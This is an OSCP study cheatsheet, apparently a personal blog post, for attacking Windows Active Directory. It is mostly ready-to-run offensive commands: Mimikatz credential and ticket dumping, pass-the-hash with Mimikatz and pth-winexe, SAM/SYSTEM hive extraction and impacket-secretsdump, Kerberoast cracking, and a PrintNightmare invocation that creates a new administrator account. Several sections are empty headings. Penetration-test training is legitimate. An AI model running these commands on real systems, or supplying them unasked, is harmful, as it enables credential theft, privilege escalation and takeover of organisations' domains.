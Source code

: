 ```yaml
---
title: Active Directory
author: linatl
category: "OSCP"
date: "2021-03-14 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Basic Domain Enumeration Commands
```
> net user /domain
> net user some_admin /domain
> net group /domain
> net accounts

Powershell:
> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent
Domain()

```


###### 389 LDAP query's
```
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b '' -s base '(objectclass=*)'
> ldapsearch -LLL -x -H ldap://10.10.10.10 -b 'DC=DOMAIN,DC=LOCAL'
```


###### Mimikatz
```
> .\mimikatz.exe
Then:
> privilege::debug
> sekurlsa::logonpasswords
> sekurlsa::tickets
> kerberos::list /export
> sekurlsa::logonpasswords
> sekurlsa::pth /user:some_admin /domain:domain.com /ntlm:hAsHPaRt2 /run:PowerShell.exe
```

###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```


###### Responder
```

```

###### PowerView
```
> Import-Module .\PowerView.ps1
> Get-NetLoggedon -ComputerName computer1
> Get-NetSession -ComputerName dc01
```


###### Pass The Hash with CrackMapExec
```

```

###### Pass the Hash with PTH
```
> pth-winexe -U username%hAsHPaRt1:hAsHPaRt2 //10.10.10.10 cmd

```


###### Rubeus
```

```

###### Other Kerberos Commands
```
> klist

> python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticketname
```

###### Bloodhound
```

```


###### Zerologon
```

```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### NoPac
```

```
